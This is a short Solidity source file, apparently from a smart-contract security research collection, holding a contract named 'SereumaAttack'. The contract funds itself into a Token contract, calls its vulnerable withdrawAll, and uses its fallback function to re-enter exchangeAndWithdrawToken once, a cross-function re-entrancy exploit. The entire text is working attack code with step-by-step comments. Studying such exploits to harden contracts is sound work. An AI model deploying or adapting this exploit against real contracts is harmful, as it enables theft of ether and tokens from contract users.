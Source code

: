 // attack contract
contract SereumaAttack {
    Token t;
    // this is used to stop the re-entrancy after the second time the Token
    // contract sends Ether to the Mallory contract.
    bool private abort;
    
    constructor(Token _t) public {
    // for solidity 0.4.19
    /*function Mallory(Token _t) public {*/
        t = _t;
        abort = false;
    }
    
    function deposit() public payable {}
    
    function setup() public payable {
        // exchange nearly all available ether to tokens
        uint avail = address(this).balance - 2;
        t.exchangeEther.value(avail)(avail);
        // deposit the last remaining ether
        t.depositEther.value(address(this).balance)();
    }
    
    function attack() public payable {
        // call vulnerable withdrawAll
        t.withdrawAll();
    }
    
    function () external payable {
        if (!abort) {
            // stop the second re-entrancy, which is caused by the transfer
            abort = true;  
            t.exchangeAndWithdrawToken(t.getTokenCount());
        }
    }
}
